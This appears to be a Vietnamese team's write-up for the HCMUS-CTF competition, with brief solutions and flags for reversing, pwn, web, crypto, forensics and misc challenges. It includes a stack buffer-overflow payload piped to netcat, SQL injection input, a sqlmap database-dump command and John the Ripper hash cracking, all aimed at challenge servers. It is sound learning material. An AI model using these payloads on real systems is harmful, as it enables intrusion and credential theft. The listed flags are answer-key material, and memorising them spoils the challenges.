










# Write up for HCMUS-CTF

## Reverse Engineering

### StackString

- Dùng r2 (radare2) để đọc file này thì phát hiện có chỗ chứa kí tự trong flag nhưng sắp xếp lộn xộn.
- Do đó ta sắp xếp lại theo thứ tự giảm dần thì nhận được flag.

*Flag:* **HCMUS-CTF{St4cK_Str1ng_G00D_old_techn1qu3}**

### Patient

- Nhóm dùng tools autoclick để  click vào nút yêu cầu và nhận được flag.

*tools: <https://sourceforge.net/projects/orphamielautoclicker/>*

*Flag:* **HCMUS-CTF{WOW_yOu_are_p4tient}**

### LuckyMine

- Nhóm thử reverse nhưng không thành công.
- Vét cạn!!!

*Flag:* **HCMUS-CTF{C_SHARPez}**

### PatientRevenge

- Nhóm tiếp tục dùng tools autoclick như trên.

*Flag:* **HCMUS-CTF{I_hope_u_dont_click_it_by_hand}**

---

## Pwn

### TellMe

- Đọc source code thì thấy có đoạn
`userid == 0x3211` và `!strcmp("sUpErPassHCMUS\n", passwd))`.
- `nc 159.65.13.76 33100`.
- Từ source code ta nhập userid là 12817 và **password** là **sUpErPassHCMUS** để có được flag.

*Flag:* **HCMUS-CTF{Ohhh~Just_give_me_the_credential!!Nah}**

### secret

- Kết nối với server và thử gõ H thì nó ra flag.

*Flag:* **HCMUS-CTF{strncmp_is_so_fun}**

### FlowMe

- Trước tiên dùng `chmod 777 flowme` để có quyền chạy thử.
- Đọc code suy ra cần phải hướng địa chỉ trả về đến phương thức secrect_func.
- Dùng `gdb`, đặt breakpoint rồi `disassemble secret_func` để tìm ra địa chỉ ta sẽ hướng đến là `0x00000000004007ea`.

- Tìm giá trị trả về để tìm vị trí của nó trong stack, ta tìm được giá trị đó là `0x00000000004008a5`.

- Xem thử vị trí của nó và khoảng cách với con trỏ của biến password_buffer, ta thấy nó ở vị trí `0x7fffffffdb68`.

- Từ đó lấy được key từ câu lệnh ``echo "`python -c 'print("A"*264+"\xea\x07\x40")'`" | nc 159.65.13.76 33103``.

*Flag:* **HCMUS-CTF{You_have_to_learn_basic_stack_based_buffer_overflow}**

---

## Web Exploitation

### Baby Sql

- Sql Injection với username là "admin" và pass là "=" thì nhận được flag.

*Flag:* **HCMUS-CTF{Sh0uld_N0tz_Conc4ten4te_S+r1ng_SQQLLL}**

### Secret Agency

- Sau khi truy cập vào địa chỉ <http://159.65.13.76:1337/> và view source, chúng ta thấy được dòng hint: *\<!-- secret agent = eevee -->*
- Dùng `curl --user-agent eevee http://159.65.13.76:1337/` chúng ta sẽ thấy được flag.

*Flag:* **HCMUS-CTF{+he_4g3nt_Izzz_eevoolution0123456}**

### Blind SQL

- Thử gõ admin thì thấy “Username exists”, suy ra web kiểm tra sự tồn tại của username nào đó bằng điều kiện dữ liệu nhập vào có trong bảng.
- Kiểm tra request thì ta thấy request body là: username = admin.
- Dùng công cụ sqlmap để khai thác database: `sqlmap -u 'http://159.65.13.76:1340/' --data='username=admin' --dump`

*Flag:* **HCMUS-CTF{Sh0uld_I_Us3_NoSQL_N3xt_T1m3_0x3f3f3f}**

---

## Cryptography

### Decoder

- Dùng base64 để decode.
- Sau đó dùng base32 decode lần nữa để nhận được flag.

*Flag:* **HCMUS-CTF{jUst_SimplE_Decoder}**

### Dot and Underscore

- Giải mã bằng mã morse.

*Flag:* **HCMUS-CTF{ITSGOODTOLEARNMORSECODE}**

### sub

- Được vào cipher text, đoán flag đã được mã hóa bằng cách thay thế các chữ cái.
- Tiến hành phần tích tần suất ta có dãy chữ cái từ nhiều đến ít xuất hiện **TMFOGALKEYRDIWSUBHZXCQVP**.
- Dùng `cat` và `tr` để tìm ra bộ chữ thay thế thích hợp.
- Tìm ra câu lệnh `cat sub | tr "TMFOGALKEYRDIWSUBHZXCQVP" "ETNIOASRCFDGHULWYPBMVKJXQZ"` sẽ làm lộ ra flag.

*Flag:* **HCMUS-CTF{YOU_SHOULD_LEARN_A_BIT_HISTORY_OF_FIT}**

### Xor

- Thêm 0 vào đầu dãy và thử lấy 10 byte đầu ra để xor với HCMUS thì thấy key là FITFI (là FIT).
- Từ đó đem dãy đó xor với FIT thì nhận được flag.

*Flag:* **HCMUS-CTF{XoR_1s_a_KinD_oF_Crypto}**

### The Ripper

- Dùng lệnh unshadow passwd shadow >> crack để unshadow và ghi vào file crack.
- Dùng tool John the Ripper để crack mật khẩu: john --show crack.
- Ta được username:password là john:secret, đăng nhập vào nc 159.65.13.76 33001, flag sẽ hiện ra.

*Flag:* **HCMUS-CTF{Use_John_the_ripper_to_crack_password_is_fun!!!HAHAHA}**

### Factorization

*Flag:* **HCMUS-CTF{smaLL_NumbeR}**

### Factorization Revenge

*Flag:* **HCMUS-CTF{haaaaah_what_do_you_really_want_from_meeeeeee}**

### Very Secure RSA

*Flag:* **HCMUS-CTF{c775e7b757ede630cd0aa1113bd102661ab38829ca52a6422ab782862f268646}**

### smalleeeee

*Flag:* **HCMUS-CTF{hello_from_the_other_side}**

---

## Forensics

### Liberate

- Dùng lệnh `strings 30_4.jpg | grep flag`, chúng ta sẽ thấy dòng chữ: **I think it should be flag 84-\*O;_:@97XK8VARo.6;aX,J3&P&SDI[TqATE2**.
- Giải mã đoạn mã trên bằng ASCII85, ta được flag.

*Flag:* **HCMUS-CTF{uSed_ASCII85_encoder}**

### Workers' Day

- Dùng tool steghide.

*Flag:* **HCMUS-CTF{simply_use_steghide_to_hiding_something}**

### AtLeast

- `xxd` không tìm được gì, thử tìm tool như gợi ý.
.- Tìm ra tool <https://stylesuxx.github.io/steganography/>

*Flag:* **HCMUS-CTF{there_is_somthing_I_wanna_hide}**

### Actual_At_Least

- Dùng lệnh strings, chúng ta thấy file kết thúc bằng chuỗi "IEND", có vẻ như đây là file .png.
- Đổi filename extension thành .png, ta có thể mở tấm ảnh lên.
- Dùng tool stegsolve với kênh red:7, pixel order: row, ta thấy được flag.

*Flag:* **HCMUS-CTF{You_should_learn_LSB_embeded_system}**

### Galaxy

- Sử dụng tool Audacity để xem sóng nhạc thì và thấy được flag.

*Flag:* **HCMUS-CTF{sound_likes_Outer_Space}**

### InsideMe

- Dùng lệnh strings để kiểm tra, chúng ta thấy ở cuối có 2 tên file, có lẽ đây là một file nén.
- Thử đổi filename extension thành .rar, giải nén ra được 1 thư mục Content, bên trong chứa 2 file secret.rtf (cú lừa đến từ người ra đề) và light.pdf.
- Kiểm tra file light.pdf bằng xxd, ta thấy kết thúc file là ffd9, đây hẳn là 1 file .jpg
- Đổi filename extension thành .jpg, mở lên và chúng ta sẽ nhìn thấy flag.

*Flag:* **HCMUS-CTF{1t_is_a_s1mple_BinWalk}**

### unknown

- Dùng `xxd unknown | more` thì thấy chữ ký file là PNG.
- Kiểm tra và sửa lại các bytes đầu của file `xxd -r -p -o 7 <(echo \x89\x50\x4e\x47\x0d\x0a\x1a\x0a) unknown`.
- Mở hình ảnh ta thấy được flag.

*Flag:* **HCMUS-CTF{l0l_CMU_da_b3s}**

### Docker Babe

- Cài đặt docker.
- Pull docker về từ dockerhub.
- Dùng câu lệnh `sudo docker run -it 6079d3143077 /bin/bash` để mở bash của docker và `cat` file flag.

*Flag:* **HCMUS-CTF{Docker_Is_an_essential_tool_You_have_to_learn_FORRRRSURRREEEE}**

### Crime

- Đầu tiên, chúng ta dùng testdisk phục hồi được một số file, trong đó có 2 file quan trọng là Secret.zip (có chứa flag.txt) và language.png (có lẽ là password để giải nén file Secret.zip).
- Giải mã đoạn cipher trong file language.png bằng Zodiac Killer Cipher, ta được FITPASS.
- Giải nén file Secret.zip bằng password vừa tìm thấy, ta được file flag.txt.

*Flag:* **HCMUS-CTF{social_distancing_for_this_pandamic}**

### Qemu

- Tải Qemu.
- Dùng câu lệnh để mở Qemu từ file đã cho `sudo virt-install \
  --name guest1-rhel7 \
  --memory 2048 \
  --vcpus 2 \
  --disk '/home/nguyenquan9699/security/CTF/HCMUS-CTF/forensic/Q/ubuntu.qcow2'  \
  --import \
  --os-variant rhel7 \
--check all=off`.
- Vào màn hình đăng nhập, do gợi ý password xuất hiện trên màn hình nên thử nhập password giống như Username và đăng nhập được.
- Mở terminal của máy ảo và xem file Secret.

*Flag:* **HCMUS-CTF{just_try_to_teach_you_learn_qemu}**

---

## Mics

### Kick-off

- Copy and paste flag cho sẵn.

*Flag:* **HCMUS-CTF{here_we_go_hcmus_ctf_by_fit@hcmus}**

### Fanpage

- Copy and paste flag trên page <https://www.facebook.com/hcmus.ctf/>

*Flag:* **HCMUS-CTF{y0ur_v3rY_f1rst_Flagggggggggggggg}**

### Logo

- Tải hình logo về (transparent) thì thấy được flag.

*Flag:* **HCMUS-CTF{This_is_a_function_not_a_bug_at_all}**

### Discord

- Xem channel announcement thì thấy flag đã được mã hoá.
- Chuyển đổi ASCII thì nhận được flag.

*Flag:* **HCMUS-CTF{YoU_kn<>w_discorD_@nd_U_Kn0w_ASCII}**
